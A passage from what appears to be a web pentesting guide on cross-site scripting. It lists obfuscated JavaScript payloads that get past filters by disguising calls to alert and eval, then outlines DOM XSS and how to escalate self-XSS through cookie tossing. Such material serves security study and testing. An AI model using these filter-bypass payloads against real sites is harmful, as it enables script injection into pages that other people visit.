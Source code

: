 ```javascript
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
$='e'; x='ev'+'al'; x=this[x]; y='al'+$+'rt(1)'; y=x(y); x(y)
x='ev'+'al'; x=this[x]; y='ale'+'rt(1)'; x(x(y))
this[[]+('eva')+(/x/,new Array)+'l'](/xxx.xxx.xxx.xxx.xx/+alert(1),new Array)
globalThis[`al`+/ert/.source]`1`
this[`al`+/ert/.source]`1`
[alert][0].call(this,1)
window['a'+'l'+'e'+'r'+'t']()
window['a'+'l'+'e'+'r'+'t'].call(this,1)
top['a'+'l'+'e'+'r'+'t'].apply(this,[1])
(1,2,3,4,5,6,7,8,alert)(1)
x=alert,x(1)
[1].find(alert)
top["al"+"ert"](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
al\u0065rt`1`
top['al\145rt'](1)
top['al\x65rt'](1)
top[8680439..toString(30)](1)
<svg><animate onbegin=alert() attributeName=x></svg>
```

## **DOM vulnerabilities**

There is **JS code** that is using **unsafely data controlled by an attacker** like `location.href` . An attacker, could abuse this to execute arbitrary JS code.\
**Due to the extension of the explanation of** [**DOM vulnerabilities it was moved to this page**](dom-xss.md)**:**

{{#ref}}
dom-xss.md
{{#endref}}

There you will find a detailed **explanation of what DOM vulnerabilities are, how are they provoked, and how to exploit them**.\
Also, don't forget that **at the end of the mentioned post** you can find an explanation about [**DOM Clobbering attacks**](dom-xss.md#dom-clobbering).

### Upgrading Self-XSS

### Cookie XSS

If you can trigger a XSS by sending the payload inside a cookie, this is usually a self-XSS. However, if you find a **vulnerable subdomain to XSS**, you could abuse this XSS to inject a cookie in the whole domain managing to trigger the cookie XSS in the main domain or other subdomains (the ones vulnerable to cookie XSS). For this you can use the cookie tossing attack:

{{#ref}}
../hacking-with-cookies/cookie-tossing.md
{{#endref}}
